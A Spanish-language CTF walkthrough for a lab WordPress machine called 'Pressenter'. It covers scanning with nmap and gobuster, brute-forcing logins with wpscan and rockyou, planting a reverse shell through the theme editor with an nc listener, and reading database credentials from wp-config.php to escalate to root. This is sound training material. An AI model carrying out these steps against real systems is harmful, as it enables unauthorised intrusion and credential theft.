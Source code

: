 ```yaml
---
description: '✍️ Autor: d1se0  🔍 Dificultad: Fácil  📅 Fecha de creación: 29/08/2024'
---
```


# Pressenter

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (773).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (774).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web de CTF (está algo fea) puede ser que sea un WordPress.

<figure><img src="../../.gitbook/assets/image (775).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (779).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos un dominio por lo que hay que añadirlo en el archivo `/etc/hosts`.

<figure><img src="../../.gitbook/assets/image (776).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (777).png" alt=""><figcaption></figcaption></figure>

Al ser un **WordPress** realizamos este comando para enumerar los usuarios y plugins.

```bash
wpscan --url http://pressenter.hl/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (778).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta a través de la misma herramienta.

```bash
wpscan --url http://pressenter.hl/ --passwords /usr/share/wordlists/rockyou.txt --usernames pressi,hacker
```

<figure><img src="../../.gitbook/assets/image (781).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (780).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Estamos dentro vamos a la sección de **Herramientas** en concreto **Editor de archivos de temas** para subir la [**Reverse Shell**](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (782).png" alt=""><figcaption></figcaption></figure>

Al actualizar el archivo nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (783).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

<figure><img src="../../.gitbook/assets/image (784).png" alt=""><figcaption></figcaption></figure>

Encuentro en el directorio `/tmp` un archivo que no se puede leer si no soy el usuario **mysql** por lo que voy a mostrar el contenido de **wp-config.php**.

<figure><img src="../../.gitbook/assets/image (785).png" alt=""><figcaption></figcaption></figure>

```
cat /var/www/pressenter/wp-config.php
```

<figure><img src="../../.gitbook/assets/image (787).png" alt=""><figcaption></figcaption></figure>

Encontramos un usuario y su contraseña.

```
mysql -u admin -p'rooteable' -h 127.0.0.1
```

<figure><img src="../../.gitbook/assets/image (788).png" alt=""><figcaption></figcaption></figure>

Indagamos a ver si encontramos información relevante.

```bash
show databases;
use wordpress;
show tables;
select * from wp_usernames;
```

<figure><img src="../../.gitbook/assets/image (789).png" alt=""><figcaption></figcaption></figure>

Encontramos las credenciales del usuario **enter**. Nos logueamos.

<figure><img src="../../.gitbook/assets/image (790).png" alt=""><figcaption></figcaption></figure>

En el directorio del usuario hay una flag probablemente en el directorio root puede haber algo parecido por lo que realizamos este comando para escalar privilegios.

```bash
sudo /usr/bin/cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (791).png" alt=""><figcaption></figcaption></figure>

No tenemos suerte, voy a probar una solución más sencilla y es la misma contraseña sea para root.

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>
